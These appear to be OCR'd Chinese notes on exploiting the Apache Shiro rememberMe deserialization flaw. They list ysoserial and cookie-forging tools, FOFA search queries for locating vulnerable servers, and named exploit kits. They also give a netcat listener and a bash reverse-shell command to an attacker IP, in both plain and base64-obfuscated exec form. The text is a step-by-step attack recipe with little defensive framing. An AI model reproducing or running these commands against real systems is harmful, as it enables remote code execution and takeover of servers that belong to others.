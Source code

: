 ### ysoserial.jar 

序列化 

### python shiro.py 

- AES加密 
- base64编码 
- Cookie 

### Brup或者python 

发起HTTP请求



# 利用实现 

## 漏洞检测与发现

### fofa 

`header="rememberme=deleteMe"`

`header=" shiroCookie"` 

### 检测工具 

1. shiro_tool.jar 纯字符版 
2. ShiroExploitV2.51 
3. shiro_attack-v2.0.jar 

## 流程 

### kali监听7777 

`nc -lvp 7777` 

### 反弹连接命令准备 

`bash -i >& /dev/tcp/192.168.142.132/7777 0>&1` 

https://ares-x.com/tools/runtime-exec/ 



得到 

`bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE0Mi4xMzIv Nzc3NyAwPiYx}|{base64,-d}|{bash,-i}` 

### kali JRMPListener 
